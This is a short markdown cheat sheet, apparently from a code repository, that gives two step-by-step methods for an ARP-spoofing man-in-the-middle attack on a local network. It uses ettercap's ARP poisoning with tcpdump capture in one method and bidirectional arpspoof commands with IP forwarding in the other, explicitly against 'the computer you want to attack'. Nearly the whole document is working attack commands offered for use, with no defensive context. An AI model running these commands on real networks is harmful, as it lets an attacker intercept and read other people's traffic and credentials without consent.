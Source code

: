 # Method 1
1) enable forwarding   
```
sysctl -w net.ipv4.ip_forward=1
```
2) then go the the graphical ettercap.  
there click on sinff --> unified sniff --> wlan0  
then click on targets --> current targets  
then pick target one as the router and target 2 as the computer you want to attack  
then click mitm --> arp poisoning --> sniff remote connections  
then run:
```
tcpdump -i wlan0 -n port <port_number> and host <host_name>
```
<br>
<br>

# Method 2

## <ins>arpspoof attack</ins>  
<ins>fool the victim</ins>
```
arpspoof -i <interface of my machine> -t <target ip> <gateway>
```
<ins>fool the router</ins>
```
arpspoof -i <interface of my machine> -t <gateway> <target ip>
```
now you need to enable port forwarding for your machine so it could send the packets from himself to the router  
```
echo 1 > /proc/sys/net/ipv4/ip_forward 
```